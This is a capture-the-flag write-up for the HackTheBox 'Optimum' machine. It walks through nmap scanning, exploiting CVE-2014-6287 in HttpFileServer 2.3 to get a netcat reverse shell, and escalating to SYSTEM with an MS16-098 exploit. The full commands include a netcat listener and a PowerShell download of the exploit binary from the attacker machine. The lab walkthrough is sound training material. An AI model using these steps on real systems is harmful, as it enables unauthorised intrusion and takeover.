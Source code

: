 # Optimum Writeup w/o Metasploit

![](../images/max/577/1*NKZJ6g5IrMlmin0odn-nQw.png)

## Reconnaissance <a id="8798"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA nmap/initial 10.10.10.8
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that only one port is open:

* **Port 80:** running HttpFileServer httpd 2.3.

![](../images/max/875/1*k9L7TrK7W6-VnZMQawgfcA.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA nmap/full 10.10.10.8
```

We get back the following result. No other ports are open.

![](../images/max/875/1*ga9SWu1zvxTkW9Vc4vO3Uw.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA nmap/udp 10.10.10.8
```

We get back the following result.

![](../images/max/820/1*AtOzEE85ZI8b_DN1Sc77MA.png)

Our initial recon shows that our only point of entry is through exploiting the HTTP File Server.

## Enumeration <a id="f550"></a>

Browse to the HTTP File server.

![](../images/max/715/1*aCNfEc0EKBA3n4lxbDv-9w.png)

It seems to be a server that allows you to remotely access your files over the network. There’s a login page that might be using default credentials. This could potentially allow us to gain an initial foothold. Let’s google the server name and version to learn more about it.

![](../images/max/780/1*0RMMOpk5wDXeUUM4zknTZw.png)

The first two google entries are publicly disclosed exploits that would give us remote code execution on the box!

Click on the first entry and view the compile instructions.

![](../images/max/1189/1*w4ypNwoGT8Wa9lNAjPYHUA.png)

To compile the exploit, we need to perform a few tasks:

1. Host a web server on our attack machine \(kali\) on port 80 in a directory that has the netcat executable file.
2. Start a netcat listener on the attack machine.
3. Download the exploit and change the _ip\_addr_ & _local\_port_ variables __in the script to match the ip address of the attack machine and the port that netcat is listening on.
4. Run the script using python as stated in the _Usage_ comment.

Before we do that, let’s try and understand what the script is doing.

![](../images/max/804/1*CVvuM4vFmi6wv9MjzpuGSg.png)

Everything in yellow \(in double quotes\) is URL encoded. Let’s decode it using an [online encoder/decoder](https://meyerweb.com/eric/tools/dencoder/).

![](../images/max/782/1*U36Uah44TmAUC7NwFajP0g.png)

Three functions are being called:

* **script\_create\(\):** creates a script \(_script.vbs_\) that when run downloads the nc.exe from our attack machine and saves it to the _C:\Users\Public\_ location on the target machine.
* **execute\_script\(\):** uses the _csscript.exe_ \(command-line version of the Windows Script Host that provides command-line options for setting script properties\) to run _script.vbs_.
* **nc\_run\(\):** runs the the netcat executable and sends a reverse shell back to our attack machine.

Now that we understand what the script is doing, what remains to be answered is why was remote code execution allowed. Further googling tells us the [reason](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server \(aks HFS or HttpFileServer\) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

This makes sense. In the exploit, every time a search is done to run arbitrary code, the _%00_ sequence is used.

## Gaining an Initial Foothold <a id="4a01"></a>

Now that we understand the exploit, let’s run it. In the instructions, the first step is to host a web server on our attack machine \(kali\) on port 80 in a directory that has the netcat executable file.

Locate the Windows netcat executable file in the kali vm.

![](../images/max/467/1*Qtf_ISBvJObLkgELGf6mmQ.png)

Copy it to the location where the server will be run.

```text
cp nc.exe ~/Desktop/
```

Start the HTTP server.

```text
python -S SimpleHTTPServer
```

The second step is to start a netcat listener on the attack machine.

```text
nc -nlvp 5555
```

The third step is to download the exploit and change the _ip\_addr_ & _local\_port_ variables __in the script to match the ip address of the attack machine and the port that netcat is listening on.

![](../images/max/875/1*REj-uG7hpQC1kwqs8X3LsQ.png)

![](../images/max/573/1*P2tOnHK8w5U6R_WZdJoG-Q.png)

The fourth step is to run the exploit.

```text
python 39161.py 10.10.10.8 80
```

We get a non-privileged shell back!

![](../images/max/569/1*cf31JomNi-3VN4L2ezT7tQ.png)

Grab the user flag.

![](../images/max/521/1*PQ7nJqA9EYMd6flmEDtzzA.png)

We don’t have system privileges, so we’ll need to find a way to escalate privileges.

## Privilege Escalation <a id="4f80"></a>

We’ll use [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) to identify any missing patches on the Windows target machine that could potentially allow us to escalate privileges.

First, download the script.

```text
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

Next, install the dependencies specified in the readme document.

```text
pip install xlrd --upgrade
```

Update the database.

```text
./windows-exploit-suggester.py --update
```

This creates an excel spreadsheet form the Microsoft vulnerability database in the working directory.

The next step is to retrieve the system information from the target machine. This can be done using the “systeminfo” command.

![](../images/max/919/1*-p8vBM7H9aIjum8m1YaOQQ.png)

Copy the output and save it in a text file “sysinfo.txt” in the Windows Exploit Suggester directory on the attack machine. Then run the following command on the attack machine.

```text
./windows-exploit-suggester.py --database 2019-10-05-mssb.xls --systeminfo sysinfo.txt
```

![](../images/max/1158/1*FavOCVu4GBX53wndAx_BqQ.png)

The Windows OS seems to be vulnerable to many exploits! Let’s try MS16–098. In the [exploit database](https://www.exploit-db.com/exploits/41020), it gives you a link to a precompiled executable. Download the executable on the attack machine.

```text
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Now we need to transfer it to the target machine. Start up an HTTP server on attack machine in the same directory that the executable file is in.

```text
python -m SimpleHTTPServer 9005
```

In target machine download the file in a directory you have write access to.

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Run the exploit.

![](../images/max/657/1*rJz8daK8zkXt4ttTTZOqAg.png)

We have system! Grab the root flag.

![](../images/max/463/1*yvwdKYtBc1geIU5UwobxGA.png)

## Lesson Learned <a id="41f2"></a>

Always update and patch your software! To gain both an initial foothold and escalate privileges, we leveraged publicly disclosed vulnerabilities that have security updates and patches available.

